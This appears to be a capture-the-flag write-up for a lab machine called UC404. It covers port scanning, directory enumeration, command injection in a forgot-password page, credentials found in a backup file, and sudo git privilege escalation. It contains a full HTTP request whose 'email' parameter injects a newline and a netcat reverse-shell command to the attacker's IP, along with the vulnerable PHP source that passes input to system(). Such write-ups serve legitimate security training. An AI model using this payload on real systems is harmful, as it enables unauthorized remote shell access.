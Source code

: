 # UC404

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 192.168.202.109
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-06 21:34 +08
Nmap scan report for 192.168.202.109
Host is up (0.17s latency).
Not shown: 65527 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
2049/tcp  open  nfs
41473/tcp open  unknown
45259/tcp open  unknown
49415/tcp open  unknown
54505/tcp open  unknown
```

NFS is open, which might have stuff we can mount on.

### Rabbit Holes

NFS had nothing:

```
$ showmount -e 192.168.202.109      
Export list for 192.168.202.109:
```

Port 80 shows some dashboard that looks static:

<figure><img src="../../../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>

A detailed `nmap` scan reveals that there's a `.git` repository present:

```
$ sudo nmap -p 80 -sC -sV --min-rate 3000 192.168.202.109
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-06 21:37 +08
Nmap scan report for 192.168.202.109
Host is up (0.17s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
| http-git: 
|   192.168.202.109:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|     Remotes:
|       https://github.com/ColorlibHQ/AdminLTE.git
|_    Project type: Ruby on Rails web application (guessed from .gitignore)
|_http-title: AdminLTE 3 | Dashboard
```

However, there's nothing interesting within it.&#x20;

### Web Enumeration --> Cmd Injection

I ran a `gobuster` scan on port 80 and found one interesting directory:

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://192.168.202.109 -t 100
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.202.109
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2023/07/06 21:37:30 Starting gobuster in directory enumeration mode
===============================================================
/pages                (Status: 301) [Size: 318] [--> http://192.168.202.109/pages/]
/demo                 (Status: 301) [Size: 317] [--> http://192.168.202.109/demo/]
/plugins              (Status: 301) [Size: 320] [--> http://192.168.202.109/plugins/]
/docs                 (Status: 301) [Size: 317] [--> http://192.168.202.109/docs/]
/db                   (Status: 301) [Size: 315] [--> http://192.168.202.109/db/]
/dist                 (Status: 301) [Size: 317] [--> http://192.168.202.109/dist/]
/build                (Status: 301) [Size: 318] [--> http://192.168.202.109/build/]
/LICENSE              (Status: 200) [Size: 1082]
/under_construction   (Status: 301) [Size: 331] [--> http://192.168.202.109/under_construction/]
```

The `under_construction` part looked the most promising. It just brought us to a login page:

<figure><img src="../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

Default credentials don't work with this one. I was a bit stuck here, but eventually decided to check the page source of all pages. There was this interesting bit within the source for the 'Forgot Password' page:

<figure><img src="../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

Blacklisting some characters means that there is a potential injection point here. I was curious about that '1' and what it was reflecting. I tested this a bit by sending POST requests, but it didn't really work.&#x20;

I thought for a while, and decided to change it to GET requests instead of POST, and it actually worked!

<figure><img src="../../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

We can get a reverse shell by sending this request:

```http
GET /under_construction/forgot.php?email=%0a+nc+-e+/bin/bash+192.168.45.179+21 HTTP/1.1
Host: 192.168.202.109
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Origin: http://192.168.202.109
Connection: close
Referer: http://192.168.202.109/under_construction/forgot.php
Upgrade-Insecure-Requests: 1

```

<figure><img src="../../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

Super CTF-ish initial access. We can read the source code to see how it works:

```php
<?php
//system("php sendmail.php " . $_GET['email'], $output); print_r($output)
$badUrl = $_GET['email'];
$goodUrl = str_replace(';', '?', $badUrl);
system("php sendmail.php " . $goodUrl, $output); print_r($output);
?>
```

## Privilege Escalation

### Brian Creds

I ran a `linpeas.sh` scan to enumerate for me. It picked up on this:

```
[+] Backup folders
drwxr-xr-x 2 root root 4096 Jan 27 16:07 /var/backups                                        
total 16
-rw-r--r-- 1 root     root     10832 Oct 27  2020 apt.extended_states.0
-rw-r--r-- 1 www-data www-data   787 Sep 18  2020 sendmail.php.bak
```

We can read it to find more credentials:

{% code overflow="wrap" %}
```php
www-data@UC404:/tmp$ cat /var/backups/sendmail.php.bak 
<?php                                                                                        
if(isset($_POST['submit']))                                                                  
{ 
$connect=mysql_connect("localhost","brian","BrianIsOnTheAir789") or die("Could not connect to database");
```
{% endcode %}

We can then `su` to `brian`:

<figure><img src="../../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

### Sudo Git

Since we had the password, we can check `sudo` privileges:

```
brian@UC404:/tmp$ sudo -l
Matching Defaults entries for brian on UC404:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User brian may run the following commands on UC404:
    (ALL) NOPASSWD: /usr/bin/git
```

We can follow GTFOBins to get a `root` shell:

<figure><img src="../../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

Rooted!
